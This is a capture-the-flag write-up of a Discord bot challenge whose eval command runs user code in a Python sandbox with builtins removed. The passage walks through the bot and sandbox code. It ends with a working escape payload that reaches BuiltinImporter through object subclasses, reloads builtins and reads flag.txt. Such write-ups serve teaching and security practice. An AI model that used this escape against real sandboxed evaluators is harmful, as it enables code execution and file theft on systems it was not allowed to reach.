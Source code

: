 # Keith Bot

>Keith made a Discord bot so he could run commands on the go, but there were some bugs

>DM Keith Bot#3149 (found in the Discord server)

>Note: The flag is in flag.txt

## Problem

This was a nice twist on the classic pyjail problem, taken a bit to the extreme. We got 2 files along with the challenge, ```bot.py``` and ```eval.py```. Essentially, looking at ```bot.py``` we see this interesting line:

```python
bot = commands.Bot(command_prefix=commands.when_mentioned_or("_"))
```
This means the bot will react when we prefix whatever we say to him with either ```_``` or we ```@``` him. Furthermore we see this:

```python
async def on_message(message):
    if message.author == bot.user:  ## (1)
        return

    if message.guild is None:
        await bot.process_commands(message)
    elif bot.user in message.mentions:
        await message.channel.send(f"{message.author.mention} DM me")  ##(2)
 ```
 Basically, the bot will never answer to itself (1) and it will always respond "DM me" if you try to ```@``` him outside of DM mode (2). It will only respond in DMs and will then process the command it is passed. Commands are defined using ```@bot.command(name="cmdnamehere")``` and in our case there is only one:
 
 ```python
 @bot.command(name="eval")
async def _eval(ctx, *, body):
    if body.startswith("```") and body.endswith("```"):
        body = "\n".join(body.split("\n")[1:-1])
    else:
        body = body.strip("` \n")

    process = await asyncio.create_subprocess_exec("env", "-i", "python3", "eval.py", stdin=asyncio.subprocess.PIPE, stdout=asyncio.subprocess.PIPE, stderr=asyncio.subprocess.PIPE)

    try:
        out, err = await asyncio.wait_for(process.communicate(body.encode()), 5)
    except asyncio.TimeoutError:
        await process.kill()
    else:
        if out or err:
            await ctx.send(f"```py\n{out.decode()}{err.decode()}\n```")

```
The interesting line is this one:

```python
process = await asyncio.create_subprocess_exec("env", "-i", "python3", "eval.py", stdin=asyncio.subprocess.PIPE, stdout=asyncio.subprocess.PIPE, stderr=asyncio.subprocess.PIPE)
```

This means that the bot will pass whatever you write after ```eval``` as an argument to ```eval.py``` and pipe out the result. Time to take a look at eval then.

## Eval file

Three lines are relevant for us:

```python
env = {"__builtins__": {}}
exec(f"def func():\n{textwrap.indent(sys.stdin.read(), '    ')}", env)
ret = env["func"]()
```
The first one defines a new environment where all builtins are removed. This means no f=more commands like ```open```, ```print```, ```file``` etc. The second one takes ```stdin``` (whatever Keithbot passed as an argument in this case), wraps it in a function and compiles it in the context of our naked ```env``` environment. The third lines then exectutes the function and stores whatever was returned.

Example: assume we send ```_eval return 1```. The created function is:

```python
def func():
  return 1
```
And in fact we get ```1``` back.

So this is basically a python jail, we have no access to builtins, need to write a function body that returns a value and that value will have to be the flag.

## Solving

It took me a little while but being no stranger to pyjails and to flask injections alike, I figured it out. Basically we can access a bunch of classes by using python's OOO structure. For instance doing this:

```python
''.__class__.__mro__[1].__subclasses__()
```
will return a bunch of available subclasses. The trick is to try and find a way to use one of those to access our flag. Sometimes, we'll find the ```file``` class in there but in this case there was none. Another exploit is to go through the ```warnings``` modules but that wasn't in the list (a nice overview of the methods is [here](https://zolmeister.com/2013/05/escaping-python-sandbox.html)).

I spent some time going through the modules and tried a bunch of different things until I found this one (index 80 of ```subclasses```:

```python
<class '_frozen_importlib.BuiltinImporter'>
```

Did someone say Jackpot? Basically after reading up on it, using this class we can use the ```load_module``` method to reimport our original bultins and have access to all the normal functions we would in our normal IDE. At this point it becomes trivial:

```python
_eval return [].__class__.__mro__[1].__subclasses__()[80].load_module('builtins').open('flag.txt').read()
```
This correctly returns our flag.










 
 

